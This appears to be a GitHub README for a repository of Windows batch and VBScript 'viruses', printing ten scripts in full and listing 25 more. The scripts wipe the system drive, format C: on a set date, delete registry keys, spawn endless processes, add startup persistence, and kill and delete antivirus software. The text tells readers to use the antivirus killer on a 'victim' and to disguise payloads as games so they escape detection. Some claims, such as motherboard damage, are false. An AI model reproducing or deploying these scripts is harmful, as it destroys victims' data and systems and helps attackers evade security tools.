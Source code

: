 <h1 align="center"><u> Batch Viruses</u></h1>

## An awesome collection of different kinds of Computer Viruses written in Batch File.

---
<img src="https://user-images.githubusercontent.com/73777108/149873561-ace30728-a82f-466b-8e43-0433c2c2e87d.png" align="right">

Create amazing yet Deadly viruses with small yet deadly codes. These can be created with just Notepad, and even be downloaded from here.
The viruses here are mostly very dangerous.

Compiled and Edited by [SparkScratch-P](https://sparkscratch-p.github.io/).


---
## ⚠️ALERT: 

- These are only for educational purposes. 
- Never try them on your own device until you are sure of what you are doing.
- Me, or any other contributor to this repo will not be responsible for any damage to your device.
- Handle files with care and awareness.
- Most damages can't be restored or recovered.

---

# The Awesome List of Computer Viruses!


### 1. Deletes all content of a drive


<details><summary> Read More </summary>
 
  
  
<p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus1.bat">virus1.bat</a></p>
<pre><code> @<span class="hljs-built_in">echo</span> off
<span class="hljs-built_in">del</span> <span class="hljs-variable">%systemdrive%</span>\*.* /f /s /q
shutdown -r -f -t <span class="hljs-number">00</span>
</code></pre>
 

  </details>



### 2. Time Bomb Virus, formats C: on 25 November 2023


<details><summary> Read More </summary>
  
  
  
<p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus2.bat">virus2.bat</a></p>
<pre><code><span class="hljs-keyword">If</span> <span class="hljs-variable">%date%</span> <span class="hljs-keyword">NEQ</span> <span class="hljs-number">2023</span>/<span class="hljs-number">11</span>/<span class="hljs-number">25</span> <span class="hljs-keyword">goto</span> <span class="hljs-keyword">exit</span>
<span class="hljs-built_in">format</span> C: /y &gt;<span class="hljs-built_in">nul</span>
:<span class="hljs-keyword">exit</span>
<span class="hljs-keyword">exit</span>
</code></pre><p>The Date, Time, and the Drive to be formatted can be changed.</p>
  
   

  </details>



### 3. Crash Ur Computer of Windows Xp


<details><summary> Read More </summary>

<p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus3.bat">virus3.bat</a></p>
<pre><code><span class="hljs-keyword">Option</span> <span class="hljs-keyword">Explicit</span>

<span class="hljs-keyword">Dim</span> WSHShell
<span class="hljs-keyword">Set</span> WSHShell=Wscript.<span class="hljs-built_in">CreateObject</span>(“Wscript.Shell”)

<span class="hljs-keyword">Dim</span> x
<span class="hljs-keyword">For</span> x = <span class="hljs-number">1</span> <span class="hljs-keyword">to</span> <span class="hljs-number">100000000</span>
WSHShell.Run “Tourstart.exe”
<span class="hljs-keyword">Next</span>
</code></pre><p>This Virus works only for Windows XP, and besides formatting the drives, it damages the motherboard.</p>

   

  </details>

### 4.  Delete Key Registry Files 



<details><summary> Read More </summary>
 
 <p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus4.bat">virus4.bat</a></p>
<pre><code>@ECHO OFF
START <span class="hljs-keyword">reg</span> <span class="hljs-keyword">delete</span> HKCR/.<span class="hljs-keyword">exe</span>
START <span class="hljs-keyword">reg</span> <span class="hljs-keyword">delete</span> HKCR/.dll
START <span class="hljs-keyword">reg</span> <span class="hljs-keyword">delete</span> HKCR/*
:MESSAGE
ECHO Your computer <span class="hljs-built_in">has</span> been fcked. Have <span class="hljs-keyword">a</span> nice day.
GOTO MESSAGE
</code></pre><p>This virus is extremely dangerous, don&#39;t run it on your device.</p>

  </details>

### 5. The Most Simple Virus To Crush The Window. Delete C:/


<details><summary> Read More </summary>
 
 
<p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus5.bat">virus5.bat</a></p>
<pre><code>@Echo <span class="hljs-literal">off</span>
Del C:<span class="hljs-string">\</span> *.* |y
</code></pre><p>Your device will not restart again, after it runs once!</p>

 
  </details>
 
 
### 6. Endless Notepads


<details><summary> Read More </summary>
 
 
<p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus6.bat">virus6.bat</a></p>
<pre><code>@<span class="hljs-built_in">ECHO</span> off
:top
<span class="hljs-built_in">START</span> <span class="hljs-variable">%SystemRoot%</span>\system32\notepad.exe
<span class="hljs-keyword">GOTO</span> top
</code></pre><p>This will open endless notepads, until ur system gets overloaded, hanged, and crashed!</p>
<p>NOTE : If you mistakenly open it, immediately power of and force shut down your computer, else it may crash, never to start again.</p>

 
  </details>
 

### 7. Disable Internet Permanently


<details><summary> Read More </summary>
 
 <p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus7.bat">virus7.bat</a></p>
<pre><code><span class="hljs-symbol">echo</span> <span class="hljs-comment">@echo off&gt;c:windowswimn32.bat</span>
<span class="hljs-symbol">echo</span> <span class="hljs-keyword">break </span>off&gt;&gt;c:windowswimn32.<span class="hljs-keyword">bat
</span><span class="hljs-symbol">echo</span> ipconfig/release_all&gt;&gt;c:windowswimn32.<span class="hljs-keyword">bat
</span><span class="hljs-symbol">echo</span> <span class="hljs-meta">end</span>&gt;&gt;c:windowswimn32.<span class="hljs-keyword">bat
</span><span class="hljs-symbol">reg</span> <span class="hljs-keyword">add </span>hkey_local_machinesoftwaremicrosoftwindowscurrentv ersionrun /v WINDOWsAPI /t reg_sz /d c:windowswimn32.<span class="hljs-keyword">bat </span>/f
<span class="hljs-symbol">reg</span> <span class="hljs-keyword">add </span>hkey_current_usersoftwaremicrosoftwindowscurrentve rsionrun /v CONTROLexit /t reg_sz /d c:windowswimn32.<span class="hljs-keyword">bat </span>/f
<span class="hljs-symbol">echo</span> You Have <span class="hljs-keyword">Been </span>HACKED!
<span class="hljs-symbol">PAUSE</span>
</code></pre><p>Your device will never ever connect to the internet if this virus runs once!</p>
  
  </details>
 


### 8. Crazy Caps Lock


<details><summary> Read More </summary>
 
 <p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus8.bat">virus8.bat</a></p>
<pre><code><span class="hljs-keyword">Set</span> wshShell <span class="hljs-comment">=wscript.CreateObject(</span>”<span class="hljs-comment">WScript.Shell</span>”<span class="hljs-comment">)</span>
do
wscript.sleep <span class="hljs-comment">100</span>
wshshell.sendkeys “<span class="hljs-comment">{CAPSLOCK}</span>”
loop
</code></pre><p>This repeatedly toggles your Caps Lock key. It is fully harmless and gets proper on reboot, or once the task is ended in Task Manager.</p>

   
  </details>


### 9. Endless Backspace



<details><summary> Read More </summary>
 
<p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus9.bat">virus9.bat</a></p>
<pre><code>MsgBox “Let’s go back <span class="hljs-selector-tag">a</span> few steps”
Set wshShell =wscript.CreateObject(”WScript.Shell”)
do
wscript<span class="hljs-selector-class">.sleep</span> <span class="hljs-number">100</span>
wshshell<span class="hljs-selector-class">.sendkeys</span> “{bs}”
loop
</code></pre><p>This will repeatedly keep pressing your Backspace, and will not let u type. It pops up a message; “Let’s go back a few steps”, and starts nuisence. Anyways, it is temporary, and harmless.</p>
    
  </details>


### 10. Disable the Antivirus



<details><summary> Read More </summary>
 
 
 <p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus10.bat">virus10.bat</a></p>
<pre><code>@ echo off
rem —
rem Permanently Kill Anti-Virus
net stop “Security Center”
netsh firewall <span class="hljs-keyword">set</span> opmode <span class="hljs-comment">mode=disable</span>
tskill /A av*
tskill /<span class="hljs-comment">A fire*</span>
tskill /A anti*
cls
tskill /<span class="hljs-comment">A spy*</span>
tskill /A bullguard
tskill /<span class="hljs-comment">A PersFw</span>
tskill /A KAV*
tskill /<span class="hljs-comment">A ZONEALARM</span>
tskill /A SAFEWEB
cls
tskill /<span class="hljs-comment">A OUTPOST</span>
tskill /A nv*
tskill /<span class="hljs-comment">A nav*</span>
tskill /A F-*
tskill /<span class="hljs-comment">A ESAFE</span>
tskill /A cle
cls
tskill /<span class="hljs-comment">A BLACKICE</span>
tskill /A def*
tskill /<span class="hljs-comment">A kav</span>
tskill /A kav*
tskill /<span class="hljs-comment">A avg*</span>
tskill /A ash*
cls
tskill /<span class="hljs-comment">A aswupdsv</span>
tskill /A ewid*
tskill /<span class="hljs-comment">A guard*</span>
tskill /A guar*
tskill /<span class="hljs-comment">A gcasDt*</span>
tskill /A msmp*
cls
tskill /<span class="hljs-comment">A mcafe*</span>
tskill /A mghtml
tskill /<span class="hljs-comment">A msiexec</span>
tskill /A outpost
tskill /<span class="hljs-comment">A isafe</span>
tskill /A zap*
cls
tskill /<span class="hljs-comment">A zauinst</span>
tskill /A upd*
tskill /<span class="hljs-comment">A zlclien*</span>
tskill /A minilog
tskill /<span class="hljs-comment">A cc*</span>
tskill /A norton*
cls
tskill /<span class="hljs-comment">A norton au*</span>
tskill /A ccc*
tskill /<span class="hljs-comment">A npfmn*</span>
tskill /A loge*
tskill /<span class="hljs-comment">A nisum*</span>
tskill /A issvc
tskill /<span class="hljs-comment">A tmp*</span>
cls
tskill /A tmn*
tskill /<span class="hljs-comment">A pcc*</span>
tskill /A cpd*
tskill /<span class="hljs-comment">A pop*</span>
tskill /A pav*
tskill /<span class="hljs-comment">A padmin</span>
cls
tskill /A panda*
tskill /<span class="hljs-comment">A avsch*</span>
tskill /A sche*
tskill /<span class="hljs-comment">A syman*</span>
tskill /A virus*
tskill /<span class="hljs-comment">A realm*</span>
cls
tskill /A sweep*
tskill /<span class="hljs-comment">A scan*</span>
tskill /A ad-*
tskill /<span class="hljs-comment">A safe*</span>
tskill /A avas*
tskill /<span class="hljs-comment">A norm*</span>
cls
tskill /A offg*
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\alwils~<span class="hljs-number">1</span>\avast4\*.*
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\Lavasoft\Ad-awa~<span class="hljs-number">1</span>\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\kasper~<span class="hljs-number">1</span>\*.exe
cls
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\trojan~<span class="hljs-number">1</span>\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\f-prot95\*.dll
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\tbav\*.dat
cls
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\avpersonal\*.vdf
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\Norton~<span class="hljs-number">1</span>\*.cnt
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\Mcafee\*.*
cls
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\Norton~<span class="hljs-number">1</span>\Norton~<span class="hljs-number">1</span>\Norton~<span class="hljs-number">3</span>\*.*
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\Norton~<span class="hljs-number">1</span>\Norton~<span class="hljs-number">1</span>\speedd~<span class="hljs-number">1</span>\*.*
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\Norton~<span class="hljs-number">1</span>\Norton~<span class="hljs-number">1</span>\*.*
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\Norton~<span class="hljs-number">1</span>\*.*
cls
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\avgamsr\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\avgamsvr\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\avgemc\*.exe
cls
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\avgcc\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\avgupsvc\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\grisoft
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\nood32krn\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\nood32\*.exe
cls
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\nod32
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\nood32
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\kav\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\kavmm\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\kaspersky\*.*
cls
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\ewidoctrl\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\guard\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\ewido\*.exe
cls
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\pavprsrv\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\pavprot\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\avengine\*.exe
cls
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\apvxdwin\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\webproxy\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\panda software\*.*
rem —
</code></pre><p>This will disable your antivirus for the timbing.  One can run it on Victim computer before loading any virus to it!</p>
     
  </details>
 
 
 
## This was just a list of ten. There are 25 More in our collection, here on GitHub! Just Have a look at thm:

- Task-kill some apps
- Command Line Notepad
- CD/ROM popper with malicious popups

<details><summary>Details</summary>

CD/ROM keeps opening  and closing ...an error msg keeps popping up  and when i turn on my PC an error msg shows so i have to press ok then open my account

</details>

- CD drive popup
- Stop current Internet access
- Format all Drives from C to J
- Delete Entire Registry
- Crash PC for ever
- Application bomber
- Delete System 32 Folder
- Disgust and shut down!
- Destroy-shutdown with popup
- Shutdowns Computer Everytime It Is Turned On
- Change useful random files to on-working txt files
- System meltdown
- Flood internet
- System Crash

<details><summary>Details</summary>
It will make you unable to use your PC and FORCE you to install Windows OS again. You will only be aware of the infiltration the next time you turn on your Computer! Use the latest version of “Bat To Exe Converter” and add Administrator manifest to it and make it Invisible application before converting it to .exe! Your victim doesn’t even know what is happening or what this virus did. Your trusted Antivirus can’t even detect it cause this file doesn’t work as normal viruses but the later damage will be way too much than what a couple of malware can do.
You may name it in a sexy way like GTA and choose the appropriate icon to attract your victim’s attention. But please, don’t try to be an ASS HAT with it.

</details>

- Matrix virus

<details><summary>Details</summary>

AS IT WAS TOO DANGEROUS, THE ACTUAL HEADER FILES FOR THIS SCRIPT ARE NOT GIVEN
AND IF U WANT TO TRY THIS SCRIPT U CAN JUST USE OF HEADER FILES SUCH AS STDIN, STDLIB, CONIO, AND STUFF LIKE THAT

</details>

- Bloat random folder
- User Account Bloatware
- Overload with unlimited background processes
- Killer and system crasher virus

<details><summary>Details</summary>

Here is a Batch File virus which can:

1.Copy itself into startup
2.Copy itself over one thousand times into random spots in your computer.
3.Hide its self and all other created files
4.Task kill MSN, Norton, Windows Explorer, Limewire.
5.Swap the left mouse button with the right one
6.Opens alert boxes
7.Changes the time to 12:00 and shuts down the computer
copy this code into notepad and save as Greatgame.bat(while saving select all files instead of text ).

</details>

- Show incognito history
- Delete entire system
- Command Line Notepad

<details><summary>Details</summary>
Form Of Switches

-s
Shuts down the PC.

-l
Logs off the current user.

-t nn
Indicates the duration of delay, in seconds, before performing the action.

-c “messagetext”
Displays a message in the System Shutdown window. A maximum of 127 characters can be used. The message must be enclosed in quotation marks.

-f
Forces any running applications to shut down.

-r
Reboots the PC. ..!!!

</details>

- Text bloater

### You can easily search out the desired virus by following the commit titles in `./viruses` directory in the `main` brach under this repo.

## How to Manage Viruses?

Most viruses are dangerous, and many of them are not detectable by modern Antiviruses. So, handle with care, and don't think, it is undetected, so you can freely run or use it. 
Be sure about what you ar doing. To avoid serious problems, the `#include` libraries of some have been removed, and others are fillet with micro glitches, that you need to fix before you run them. Remember, these are only for educational, and research purposes. Read the details about all viruses on this page!
 
  To get a virus, download the repo, and extract. Or, copy-paste the code from here to Notepad, and save as `.bat` (Text Encoding : ASNI). These viruses works only on Windows.

<section id="downloads" align="center">
 
<a href="https://codeload.github.com/SparkScratch-P/batch-virus/zip/refs/heads/main" class="btn btn-github"><span class="icon"></span>Download .Zip</a>
</section>
  
  
## Developers

 The viruses may be preexisting, but most of thm have been slight-edited, and posted here, often toincrease the impact factor.

Favourable points of development:

- New or more impactful viruses.
- Controlled viruses to work for good.
- Helpful viruses.
- Documentation of more viruses, 25 left, 10 done on this page.
- Report if it is working or not, improve glithes, report bugs.

<section id="downloads" align="center">
          
<a href="https://codeload.github.com/SparkScratch-P/batch-virus/zip/refs/heads/main" class="btn btn-github"><span class="icon"></span>Download .Zip</a>
 </section>


### All contributions and PRs are welcome. 

<h1 align="center">⭐ Leave A Star If You Like It ⭐<h1>
<h1 align="center">❤️ Thank You ❤️<h1>
